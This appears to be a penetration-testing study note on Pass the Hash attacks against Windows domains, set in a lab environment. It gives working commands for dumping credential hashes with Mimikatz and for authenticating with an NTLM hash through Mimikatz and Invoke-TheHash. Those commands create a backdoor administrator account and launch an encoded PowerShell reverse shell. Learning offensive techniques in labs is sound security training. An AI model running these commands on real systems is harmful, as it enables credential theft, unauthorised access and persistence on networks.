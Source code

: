 ----

A **Pass the Hash (PtH)** attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. 
PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.

## Dump hashes with Mimikatz
---
Run Mimikatz.exe and elevate privileges with `privilege::debug`.
Then dump credentials hashes with `sekurlsa::logonpasswords` command to dump credentails for all current sessions.

## Pass the Hash with Mimikatz (Windows)
---
**Mimikatz** has a module named `sekurlsa::pth` that allows us to perform a PtH attack by stating a process using the hash of the user's password. 

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

- `/user`: the user name we want to impersonate
- `/rc4` or `/ntlm` : NTLM hash of the user's password
- `/domain` : domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost or a dot (.)
- `/run` : The program we want to run with the user's context

## Pass the Hash with PowerShell Invoke-TheHash (Windows)
---
**Invoke-TheHash** is a collection of PowerShell functions for performing PtH attacks with WMI and SMB. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

When using **Invoke-TheHash**, there are two options: SMB or WMI command execution.

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
```

```powershell
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

This command will use the SMB method for command execution to create a new user named mark and add the user to the administrators group.

- `Target` :  hostname or IP address of the target
- `Username` : username to use for authentication
- `Domain` : domain to use for authentication. This parameter is unnecessary with local accounts
- `Hash` : NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format
- `Command` : Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

We can use the WMI module to get a reverse shell.
```powershell
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <b64 encoded reverse shell>"
```
